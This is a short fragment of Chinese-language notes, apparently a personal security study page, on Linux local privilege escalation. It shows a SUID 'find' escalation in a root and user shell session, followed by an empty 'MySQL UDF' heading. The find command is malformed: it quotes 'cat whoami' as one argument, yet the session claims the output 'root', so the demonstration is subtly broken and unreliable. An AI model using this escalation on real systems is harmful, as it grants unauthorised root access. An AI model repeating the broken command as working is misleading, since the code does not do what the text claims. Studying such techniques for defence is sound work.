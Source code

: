 ![image-20241029161215166](./assets/image-20241029161215166.png)

****

# Linux find_suid提权

```bash
[root@localhost /]# which find
/usr/bin/find
[root@localhost /]# chmod u+s /usr/bin/find
[root@localhost /]# ll /usr/bin/find
-rwsr-xr-x. 1 root root 199304 10月 31 2018 /usr/bin/find
[root@localhost /]# su test
[test@localhost /]$ find root -exec "cat whoami" \;
root
```

# Linux Mysql UDF提权

- 和windows类似